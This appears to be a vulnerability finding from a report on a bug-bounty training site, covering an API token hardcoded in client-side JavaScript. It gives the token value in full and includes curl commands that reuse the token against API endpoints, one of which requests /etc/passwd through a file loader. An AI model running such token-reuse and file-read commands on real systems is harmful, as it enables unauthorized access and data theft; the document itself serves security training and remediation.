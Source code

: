 ### FFHK-006: Exposed API Token in JavaScript

**ID:** FFHK-006  
**Severity:** 🔴 High  
**Category:** Information Disclosure  
**CVSS Score:** 8.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)

#### Description
JavaScript analysis revealed a hardcoded API token embedded in client-side code. This token could provide unauthorized access to backend services and sensitive data.

#### Technical Details
```
EXPOSED CREDENTIALS:
├── File: script.min.js
├── Token: c0f22cf8-96ea-4fbb-8805-ee4246095031
├── Format: UUID-style API key
└── Exposure: Client-side JavaScript (publicly accessible)
```

#### Impact
- **Unauthorized Access:** Token may provide access to backend APIs
- **Data Breach:** Potential access to sensitive application data  
- **Privilege Escalation:** Token may have elevated permissions
- **Persistent Access:** Token remains valid until manually revoked

#### Recommended Remediation
1. **Immediate Revocation:** Revoke the exposed API token immediately
2. **Environment Variables:** Move API tokens to secure server-side configuration
3. **Token Rotation:** Implement regular token rotation policies
4. **Access Controls:** Implement proper API authentication and authorization

#### Manual Testing Steps
1. **Token Discovery:**
   ```bash
   # Extract the API token from JavaScript
   curl -s "https://www.bugbountytraining.com/fastfoodhackings/js/script.min.js" | \
   grep -o "[a-f0-9-]\{36\}"
   ```

2. **Token Validation:**
   ```bash
   # Test token validity with API endpoints
   curl -H "Authorization: Bearer c0f22cf8-96ea-4fbb-8805-ee4246095031" \
        "https://www.bugbountytraining.com/fastfoodhackings/api/book.php"
   ```

3. **Permissions Testing:**
   ```bash
   # Test different API endpoints with the token
   curl -H "Authorization: Bearer c0f22cf8-96ea-4fbb-8805-ee4246095031" \
        "https://www.bugbountytraining.com/fastfoodhackings/api/invites.php"
   
   curl -H "Authorization: Bearer c0f22cf8-96ea-4fbb-8805-ee4246095031" \
        "https://www.bugbountytraining.com/fastfoodhackings/api/loader.php?file=/etc/passwd"
   ```
